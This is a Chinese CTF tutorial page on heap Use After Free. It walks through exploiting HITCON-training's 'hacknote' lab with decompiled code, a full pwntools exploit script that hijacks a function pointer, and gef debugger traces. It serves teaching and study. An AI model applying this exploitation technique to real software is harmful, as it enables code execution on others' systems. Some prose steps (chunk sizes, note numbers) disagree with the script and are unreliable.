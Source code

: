 Use After Free
==============

原理
----

简单的说，Use After Free 就是其字面所表达的意思，当一个内存块被释放之后再次被使用。但是其实这里有以下几种情况

-  内存块被释放后，其对应的指针被设置为 NULL ， 然后再次使用，自然程序会崩溃。
-  内存块被释放后，其对应的指针没有被设置为 NULL ，然后在它下一次被使用之前，没有代码对这块内存块进行修改，那么\ **程序很有可能可以正常运转**\ 。
-  内存块被释放后，其对应的指针没有被设置为NULL，但是在它下一次使用之前，有代码对这块内存进行了修改，那么当程序再次使用这块内存时，\ **就很有可能会出现奇怪的问题**\ 。

而我们一般所指的 **Use After Free** 漏洞主要是后两种。此外，\ **我们一般称被释放后没有被设置为NULL的内存指针为dangling pointer。**

这里给出一个简单的例子

.. code:: cpp

    #include <stdio.h>
    #include <stdlib.h>
    typedef struct name {
      char *myname;
      void (*func)(char *str);
    } NAME;
    void myprint(char *str) { printf("%s\n", str); }
    void printmyname() { printf("call print my name\n"); }
    int main() {
      NAME *a;
      a = (NAME *)malloc(sizeof(struct name));
      a->func = myprint;
      a->myname = "I can also use it";
      a->func("this is my function");
      // free without modify
      free(a);
      a->func("I can also use it");
      // free with modify
      a->func = printmyname;
      a->func("this is my function");
      // set NULL
      a = NULL;
      printf("this pogram will crash...\n");
      a->func("can not be printed...");
    }

运行结果如下

.. code:: shell

    ➜  use_after_free git:(use_after_free) ✗ ./use_after_free                      
    this is my function
    I can also use it
    call print my name
    this pogram will crash...
    [1]    38738 segmentation fault (core dumped)  ./use_after_free

例子
----

这里我们以 HITCON-training 中的 lab 10 hacknote为例。

功能分析
~~~~~~~~

我们可以简单分析下程序，可以看出在程序的开头有个menu函数，其中有

.. code:: c

      puts(" 1. Add note          ");
      puts(" 2. Delete note       ");
      puts(" 3. Print note        ");
      puts(" 4. Exit              ");

故而程序应该主要有3个功能。之后程序会根据用户的输入执行相应的功能。

add_note
^^^^^^^^

根据程序，我们可以看出程序最多可以添加5个note。每个note有两个字段put与content，其中put会被设置为一个函数，其函数会输出 content 具体的内容。

.. code:: cpp

    unsigned int add_note()
    {
      note *v0; // ebx
      signed int i; // [esp+Ch] [ebp-1Ch]
      int size; // [esp+10h] [ebp-18h]
      char buf; // [esp+14h] [ebp-14h]
      unsigned int v5; // [esp+1Ch] [ebp-Ch]

      v5 = __readgsdword(0x14u);
      if ( count <= 5 )
      {
        for ( i = 0; i <= 4; ++i )
        {
          if ( !notelist[i] )
          {
            notelist[i] = malloc(8u);
            if ( !notelist[i] )
            {
              puts("Alloca Error");
              exit(-1);
            }
            notelist[i]->put = print_note_content;
            printf("Note size :");
            read(0, &buf, 8u);
            size = atoi(&buf);
            v0 = notelist[i];
            v0->content = malloc(size);
            if ( !notelist[i]->content )
            {
              puts("Alloca Error");
              exit(-1);
            }
            printf("Content :");
            read(0, notelist[i]->content, size);
            puts("Success !");
            ++count;
            return __readgsdword(0x14u) ^ v5;
          }
        }
      }
      else
      {
        puts("Full");
      }
      return __readgsdword(0x14u) ^ v5;
    }

print_note
^^^^^^^^^^

print_note就是简单的根据给定的note的索引来输出对应索引的note的内容。

.. code:: c

    unsigned int print_note()
    {
      int v1; // [esp+4h] [ebp-14h]
      char buf; // [esp+8h] [ebp-10h]
      unsigned int v3; // [esp+Ch] [ebp-Ch]

      v3 = __readgsdword(0x14u);
      printf("Index :");
      read(0, &buf, 4u);
      v1 = atoi(&buf);
      if ( v1 < 0 || v1 >= count )
      {
        puts("Out of bound!");
        _exit(0);
      }
      if ( notelist[v1] )
        notelist[v1]->put(notelist[v1]);
      return __readgsdword(0x14u) ^ v3;
    }

delete_note
^^^^^^^^^^^

delete_note 会根据给定的索引来释放对应的note。但是值得注意的是，在 删除的时候，只是单纯进行了free，而没有设置为NULL，那么显然，这里是存在Use After Free的情况的。

.. code:: c

    unsigned int del_note()
    {
      int v1; // [esp+4h] [ebp-14h]
      char buf; // [esp+8h] [ebp-10h]
      unsigned int v3; // [esp+Ch] [ebp-Ch]

      v3 = __readgsdword(0x14u);
      printf("Index :");
      read(0, &buf, 4u);
      v1 = atoi(&buf);
      if ( v1 < 0 || v1 >= count )
      {
        puts("Out of bound!");
        _exit(0);
      }
      if ( notelist[v1] )
      {
        free(notelist[v1]->content);
        free(notelist[v1]);
        puts("Success");
      }
      return __readgsdword(0x14u) ^ v3;
    }

利用分析
~~~~~~~~

我们可以看到 Use After Free 的情况确实可能会发生，那么怎么可以让它发生并且进行利用呢？需要同时注意的是，这个程序中还有一个magic函数，我们有没有可能来通过use after free
来使得这个程序执行magic函数呢？\ **一个很直接的想法是修改note的put字段为magic函数的地址，从而实现在执行print note 的时候执行magic函数。** 那么该怎么执行呢？

我们可以简单来看一下每一个note生成的具体流程

1. 程序申请8字节内存用来存放note中的put以及content指针。
2. 程序根据输入的size来申请指定大小的内存，然后用来存储content。

   ::

           +-----------------+                       
           |   put           |                       
           +-----------------+                       
           |   content       |       size              
           +-----------------+------------------->+----------------+
                                                  |     real       |
                                                  |    content     |
                                                  |                |
                                                  +----------------+

那么，根据我们之前在堆的实现中所学到的，显然note是一个fastbin
chunk（大小为16字节）。我们的目的是希望一个note的put字段为magic的函数地址，那么我们必须想办法让某个note的put指针被覆盖为magic地址。由于程序中只有唯一的地方对put进行赋值。所以我们必须利用写real
content的时候来进行覆盖。具体采用的思路如下

-  申请note0，real content size为16（大小与note大小所在的bin不一样即可）
-  申请note1，real content size为16（大小与note大小所在的bin不一样即可）
-  释放note0
-  释放note1
-  此时，大小为16的fast bin chunk中链表为note1->note0
-  申请note2，并且设置real content的大小为8，那么根据堆的分配规则

   -  note2其实会分配note1对应的内存块。
   -  real content 对应的chunk其实是note0。

-  如果我们这时候向note3的chunk部分写入magic的地址，那么由于我们没有note1为NULL。当我们再次尝试输出note1的时候，程序就会调用magic函数。

利用脚本
~~~~~~~~

.. code:: python

    #!/usr/bin/env python
    # -*- coding: utf-8 -*-

    from pwn import *

    r = process('./hacknote')


    def addnote(size, content):
        r.recvuntil(":")
        r.sendline("1")
        r.recvuntil(":")
        r.sendline(str(size))
        r.recvuntil(":")
        r.sendline(content)


    def delnote(idx):
        r.recvuntil(":")
        r.sendline("2")
        r.recvuntil(":")
        r.sendline(str(idx))


    def printnote(idx):
        r.recvuntil(":")
        r.sendline("3")
        r.recvuntil(":")
        r.sendline(str(idx))


    #gdb.attach(r)
    magic = 0x08048986

    addnote(32, "aaaa") # add note 0
    addnote(32, "ddaa") # add note 1

    delnote(0) # delete note 0
    delnote(1) # delete note 1

    addnote(8, p32(magic)) # add note 2

    printnote(0) # print note 0

    r.interactive()

我们可以具体看一下执行的流程，首先先下断点

**两处malloc下断点**

.. code:: shell

    gef➤  b *0x0804875C
    Breakpoint 1 at 0x804875c
    gef➤  b *0x080486CA
    Breakpoint 2 at 0x80486ca

**两处free下断点**

.. code:: shell

    gef➤  b *0x08048893
    Breakpoint 3 at 0x8048893
    gef➤  b *0x080488A9
    Breakpoint 4 at 0x80488a9

然后继续执行程序，可以看出申请note0时，所申请到的内存块地址为0x0804b008。（eax存储函数返回值）

.. code:: asm

    $eax   : 0x0804b008  →  0x00000000
    $ebx   : 0x00000000
    $ecx   : 0xf7fac780  →  0x00000000
    $edx   : 0x0804b008  →  0x00000000
    $esp   : 0xffffcf10  →  0x00000008
    $ebp   : 0xffffcf48  →  0xffffcf68  →  0x00000000
    $esi   : 0xf7fac000  →  0x001b1db0
    $edi   : 0xf7fac000  →  0x001b1db0
    $eip   : 0x080486cf  →  <add_note+89> add esp, 0x10
    $cs    : 0x00000023
    $ss    : 0x0000002b
    $ds    : 0x0000002b
    $es    : 0x0000002b
    $fs    : 0x00000000
    $gs    : 0x00000063
    $eflags: [carry PARITY adjust zero SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
    ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ code:i386 ]────
        0x80486c2 <add_note+76>    add    DWORD PTR [eax], eax
        0x80486c4 <add_note+78>    add    BYTE PTR [ebx+0x86a0cec], al
        0x80486ca <add_note+84>    call   0x80484e0 <malloc@plt>
     →  0x80486cf <add_note+89>    add    esp, 0x10
        0x80486d2 <add_note+92>    mov    edx, eax
        0x80486d4 <add_note+94>    mov    eax, DWORD PTR [ebp-0x1c]
        0x80486d7 <add_note+97>    mov    DWORD PTR [eax*4+0x804a070], edx
    ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ stack ]────
    ['0xffffcf10', 'l8']
    8
    0xffffcf10│+0x00: 0x00000008     ← $esp
    0xffffcf14│+0x04: 0x00000000
    0xffffcf18│+0x08: 0xf7e29ef5  →  <strtol+5> add eax, 0x18210b
    0xffffcf1c│+0x0c: 0xf7e27260  →  <atoi+16> add esp, 0x1c
    0xffffcf20│+0x10: 0xffffcf58  →  0xffff0a31  →  0x00000000
    0xffffcf24│+0x14: 0x00000000
    0xffffcf28│+0x18: 0x0000000a
    0xffffcf2c│+0x1c: 0x00000000
    ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
    ---Type <return> to continue, or q <return> to quit---
    [#0] 0x80486cf → Name: add_note()
    [#1] 0x8048ac5 → Name: main()
    ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
    gef➤  heap chunk 0x0804b008
    UsedChunk(addr=0x804b008, size=0x10)
    Chunk size: 16 (0x10)
    Usable size: 12 (0xc)
    Previous chunk size: 0 (0x0)
    PREV_INUSE flag: On
    IS_MMAPPED flag: Off
    NON_MAIN_ARENA flag: Off

**申请note 0的content的地址为0x0804b018**

.. code:: asm

    $eax   : 0x0804b018  →  0x00000000
    $ebx   : 0x0804b008  →  0x0804865b  →  <print_note_content+0> push ebp
    $ecx   : 0xf7fac780  →  0x00000000
    $edx   : 0x0804b018  →  0x00000000
    $esp   : 0xffffcf10  →  0x00000020
    $ebp   : 0xffffcf48  →  0xffffcf68  →  0x00000000
    $esi   : 0xf7fac000  →  0x001b1db0
    $edi   : 0xf7fac000  →  0x001b1db0
    $eip   : 0x08048761  →  <add_note+235> add esp, 0x10
    $cs    : 0x00000023
    $ss    : 0x0000002b
    $ds    : 0x0000002b
    $es    : 0x0000002b
    $fs    : 0x00000000
    $gs    : 0x00000063
    $eflags: [carry PARITY adjust ZERO sign trap INTERRUPT direction overflow resume virtualx86 identification]
    ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ code:i386 ]────
        0x8048752 <add_note+220>   mov    al, ds:0x458b0804
        0x8048757 <add_note+225>   call   0x581173df
        0x804875c <add_note+230>   call   0x80484e0 <malloc@plt>
     →  0x8048761 <add_note+235>   add    esp, 0x10
        0x8048764 <add_note+238>   mov    DWORD PTR [ebx+0x4], eax
        0x8048767 <add_note+241>   mov    eax, DWORD PTR [ebp-0x1c]
        0x804876a <add_note+244>   mov    eax, DWORD PTR [eax*4+0x804a070]
    ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ stack ]────
    ['0xffffcf10', 'l8']
    8
    0xffffcf10│+0x00: 0x00000020     ← $esp
    0xffffcf14│+0x04: 0xffffcf34  →  0xf70a3233
    0xffffcf18│+0x08: 0x00000008
    0xffffcf1c│+0x0c: 0xf7e27260  →  <atoi+16> add esp, 0x1c
    0xffffcf20│+0x10: 0xffffcf58  →  0xffff0a31  →  0x00000000
    0xffffcf24│+0x14: 0x00000000
    0xffffcf28│+0x18: 0x0000000a
    0xffffcf2c│+0x1c: 0x00000000
    ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
    ---Type <return> to continue, or q <return> to quit---
    [#0] 0x8048761 → Name: add_note()
    [#1] 0x8048ac5 → Name: main()
    ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
    gef➤  heap chunk 0x0804b018
    UsedChunk(addr=0x804b018, size=0x28)
    Chunk size: 40 (0x28)
    Usable size: 36 (0x24)
    Previous chunk size: 0 (0x0)
    PREV_INUSE flag: On
    IS_MMAPPED flag: Off
    NON_MAIN_ARENA flag: Off

类似的，我们可以得到note1的地址以及其content的地址分别为0x0804b040 和0x0804b050。

同时，我们还可以看到note0与note1对应的content确实是相应的内存块。

.. code:: asm

    gef➤  grep aaaa
    [+] Searching 'aaaa' in memory
    [+] In '[heap]'(0x804b000-0x806c000), permission=rw-
      0x804b018 - 0x804b01c  →   "aaaa" 
    gef➤  grep ddaa
    [+] Searching 'ddaa' in memory
    [+] In '[heap]'(0x804b000-0x806c000), permission=rw-
      0x804b050 - 0x804b054  →   "ddaa" 

下面就是free的过程了。我们可以依次发现首先，note0的content被free

.. code:: asm

     →  0x8048893 <del_note+143>   call   0x80484c0 <free@plt>
       ↳   0x80484c0 <free@plt+0>     jmp    DWORD PTR ds:0x804a018
           0x80484c6 <free@plt+6>     push   0x18
           0x80484cb <free@plt+11>    jmp    0x8048480
           0x80484d0 <__stack_chk_fail@plt+0> jmp    DWORD PTR ds:0x804a01c
    ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ stack ]────
    ['0xffffcf20', 'l8']
    8
    0xffffcf20│+0x00: 0x0804b018  →  "aaaa"  ← $esp

然后是note0本身

.. code:: asm

     →  0x80488a9 <del_note+165>   call   0x80484c0 <free@plt>
       ↳   0x80484c0 <free@plt+0>     jmp    DWORD PTR ds:0x804a018
           0x80484c6 <free@plt+6>     push   0x18
           0x80484cb <free@plt+11>    jmp    0x8048480
           0x80484d0 <__stack_chk_fail@plt+0> jmp    DWORD PTR ds:0x804a01c
    ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ stack ]────
    ['0xffffcf20', 'l8']
    8
    0xffffcf20│+0x00: 0x0804b008  →  0x0804865b  →  <print_note_content+0> push ebp  ← $esp

当delete结束后，我们观看一下bins，可以发现，确实其被存放在对应的fast bin中，

.. code:: cpp

    gef➤  heap bins
    ───────────────────────────────────────────────────────────[ Fastbins for arena 0xf7fac780 ]───────────────────────────────────────────────────────────
    Fastbins[idx=0, size=0x8]  ←  UsedChunk(addr=0x804b008, size=0x10) 
    Fastbins[idx=1, size=0xc] 0x00
    Fastbins[idx=2, size=0x10] 0x00
    Fastbins[idx=3, size=0x14]  ←  UsedChunk(addr=0x804b018, size=0x28) 
    Fastbins[idx=4, size=0x18] 0x00
    Fastbins[idx=5, size=0x1c] 0x00
    Fastbins[idx=6, size=0x20] 0x00

当我们将note1也全部删除完毕后，再次观看bins。可以看出，后删除的chunk块确实处于表头。

.. code:: asm

    gef➤  heap bins
    ───────────────────────────────────────────────────────────[ Fastbins for arena 0xf7fac780 ]───────────────────────────────────────────────────────────
    Fastbins[idx=0, size=0x8]  ←  UsedChunk(addr=0x804b040, size=0x10)  ←  UsedChunk(addr=0x804b008, size=0x10) 
    Fastbins[idx=1, size=0xc] 0x00
    Fastbins[idx=2, size=0x10] 0x00
    Fastbins[idx=3, size=0x14]  ←  UsedChunk(addr=0x804b050, size=0x28)  ←  UsedChunk(addr=0x804b018, size=0x28) 
    Fastbins[idx=4, size=0x18] 0x00
    Fastbins[idx=5, size=0x1c] 0x00
    Fastbins[idx=6, size=0x20] 0x00

那么，此时即将要申请note2，我们可以看下note2都申请到了什么内存块，如下

**申请note2对应的内存块为0x804b040，其实就是note1对应的内存地址。**

.. code:: asm

    [+] Heap-Analysis - malloc(8)=0x804b040
    [+] Heap-Analysis - malloc(8)=0x804b040
    0x080486cf in add_note ()
    ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ registers ]────
    $eax   : 0x0804b040  →  0x0804b000  →  0x00000000
    $ebx   : 0x00000000
    $ecx   : 0xf7fac780  →  0x00000000
    $edx   : 0x0804b040  →  0x0804b000  →  0x00000000
    $esp   : 0xffffcf10  →  0x00000008
    $ebp   : 0xffffcf48  →  0xffffcf68  →  0x00000000
    $esi   : 0xf7fac000  →  0x001b1db0
    $edi   : 0xf7fac000  →  0x001b1db0
    $eip   : 0x080486cf  →  <add_note+89> add esp, 0x10
    $cs    : 0x00000023
    $ss    : 0x0000002b
    $ds    : 0x0000002b
    $es    : 0x0000002b
    $fs    : 0x00000000
    $gs    : 0x00000063
    $eflags: [carry PARITY adjust ZERO sign trap INTERRUPT direction overflow resume virtualx86 identification]
    ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ code:i386 ]────
        0x80486c2 <add_note+76>    add    DWORD PTR [eax], eax
        0x80486c4 <add_note+78>    add    BYTE PTR [ebx+0x86a0cec], al
        0x80486ca <add_note+84>    call   0x80484e0 <malloc@plt>
     →  0x80486cf <add_note+89>    add    esp, 0x10

**申请note2的content的内存地址为0x804b008，就是note0对应的地址，即此时我们向note2的content写内容，就会将note0的put字段覆盖。**

.. code:: asm

    gef➤  n 1
    [+] Heap-Analysis - malloc(8)=0x804b008
    [+] Heap-Analysis - malloc(8)=0x804b008
    0x08048761 in add_note ()
    ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ registers ]────
    $eax   : 0x0804b008  →  0x00000000
    $ebx   : 0x0804b040  →  0x0804865b  →  <print_note_content+0> push ebp
    $ecx   : 0xf7fac780  →  0x00000000
    $edx   : 0x0804b008  →  0x00000000
    $esp   : 0xffffcf10  →  0x00000008
    $ebp   : 0xffffcf48  →  0xffffcf68  →  0x00000000
    $esi   : 0xf7fac000  →  0x001b1db0
    $edi   : 0xf7fac000  →  0x001b1db0
    $eip   : 0x08048761  →  <add_note+235> add esp, 0x10
    $cs    : 0x00000023
    $ss    : 0x0000002b
    $ds    : 0x0000002b
    $es    : 0x0000002b
    $fs    : 0x00000000
    $gs    : 0x00000063
    $eflags: [carry PARITY adjust ZERO sign trap INTERRUPT direction overflow resume virtualx86 identification]
    ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ code:i386 ]────
        0x8048752 <add_note+220>   mov    al, ds:0x458b0804
        0x8048757 <add_note+225>   call   0x581173df
        0x804875c <add_note+230>   call   0x80484e0 <malloc@plt>
     →  0x8048761 <add_note+235>   add    esp, 0x10

我们来具体检验一下，看一下覆盖前的情况，可以看到该内存块的put指针已经被置为NULL了，这是由fastbin的free机制决定的。

.. code:: asm

    gef➤  x/2xw 0x804b008
    0x804b008:  0x00000000  0x0804b018

覆盖后，具体的值如下

.. code:: asm

    gef➤  x/2xw 0x804b008
    0x804b008:  0x08048986  0x0804b00a
    gef➤  x/i 0x08048986
       0x8048986 <magic>:   push   ebp

可以看出，确实已经被覆盖为我们所想要的magic函数了。

最后执行的效果如下

.. code:: shell

    [+] Starting local process './hacknote': pid 35030
    [*] Switching to interactive mode
    flag{use_after_free}----------------------
           HackNote       
    ----------------------
     1. Add note          
     2. Delete note       
     3. Print note        
     4. Exit              
    ----------------------

同时，我们还可以借助gef的heap-analysis-helper 来看一下整体的堆的申请与释放的情况，如下

.. code:: asm

    gef➤  heap-analysis-helper 
    [*] This feature is under development, expect bugs and unstability...
    [+] Tracking malloc()
    [+] Tracking free()
    [+] Tracking realloc()
    [+] Disabling hardware watchpoints (this may increase the latency)
    [+] Dynamic breakpoints correctly setup, GEF will break execution if a possible vulnerabity is found.
    [*] Note: The heap analysis slows down noticeably the execution. 
    gef➤  c
    Continuing.
    [+] Heap-Analysis - malloc(8)=0x804b008
    [+] Heap-Analysis - malloc(8)=0x804b008
    [+] Heap-Analysis - malloc(32)=0x804b018
    [+] Heap-Analysis - malloc(8)=0x804b040
    [+] Heap-Analysis - malloc(32)=0x804b050
    [+] Heap-Analysis - free(0x804b018)
    [+] Heap-Analysis - watching 0x804b018
    [+] Heap-Analysis - free(0x804b008)
    [+] Heap-Analysis - watching 0x804b008
    [+] Heap-Analysis - free(0x804b050)
    [+] Heap-Analysis - watching 0x804b050
    [+] Heap-Analysis - free(0x804b040)
    [+] Heap-Analysis - watching 0x804b040
    [+] Heap-Analysis - malloc(8)=0x804b040
    [+] Heap-Analysis - malloc(8)=0x804b008
    [+] Heap-Analysis - Cleaning up
    [+] Heap-Analysis - Re-enabling hardware watchpoints
    [New process 36248]
    process 36248 is executing new program: /bin/dash
    [New process 36249]
    process 36249 is executing new program: /bin/cat
    [Inferior 3 (process 36249) exited normally]

这里第一个输出了两次，应该是gef工具的问题。

题目
----

-  2016 HCTF fheap
